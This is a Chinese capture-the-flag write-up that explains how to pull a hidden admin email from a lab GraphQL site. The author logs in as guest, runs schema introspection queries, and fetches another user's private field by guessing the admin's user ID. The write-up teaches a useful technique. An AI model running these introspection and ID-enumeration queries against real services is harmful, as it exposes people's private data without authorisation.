





## 题目

小 T 听说 GraphQL 是一种特别的 API 设计模式，也是 RESTful API 的有力竞争者，所以他写了个小网站来实验这项技术。

你能通过这个全新的接口，获取到没有公开出来的管理员的邮箱地址吗？

## 解题思路

- 使用测试账号登录：`guest`/`guest`<br>

- 登录后提示 `Flag 是 admin 的邮箱`，界面只有 `退出` 按钮，GraphQL 接口呢？(ŏωŏ)<br>

- 查看网络请求，发现了向 GraphQL 接口发送的 POST 请求

    URL | http://202.38.93.111:15001/graphql
    -|-
    Method | POST
    Data | `{"query":"{ notes(userId: 2) { id\ncontents }}"}`
    Response | `{"data":{"notes":[{"id":2,"contents":"Flag 是 admin 的邮箱。"}]}}`

- 要使用 GraphQL 必须知道可查询的字段，首先了解一下接口可用的 `schema`
    
    ```bash
    {
        __schema {
            types {
                name
            }
        }
    }

    # {"query": "{__schema {types {name}}}"}
    ```

- 类型 `GNote` 和 `GUser` 是需要使用的<br>

- 要获得 admin 的邮箱，邮箱字段应该与用户相关，查看类型 `GUser` 的详细信息 

    ```bash
    {
        __type(name: "GUser") {
            name
            fields {
                name
                type {
                    name
                    kind
                }
            }
        }
    }

    # {"query": "{__type(name: \"GUser\"){name\nfields{name\ntype{name\nkind}}}}"}
    ```

    

- 类型字段获取完毕！接下来看看可用查询

    ```bash
    {
        __schema {
            queryType {
                fields {
                    name
                    description
                    args {
                        name
                    }
                }
            }
        }
    }

    # {"query": "{__schema{queryType{fields{name\ndescription\nargs{name}}}}}"}
    ```

    

- `guest` 用户 `id` 为 2，推断 `admin` 用户的 `id` 为 1

    ```bash
    {
        user(id: 1) {
            privateEmail
        }
    }

    # {"query": "{user(id: 1){privateEmail}}"}
    ```

- 成功获得 Flag！<br>
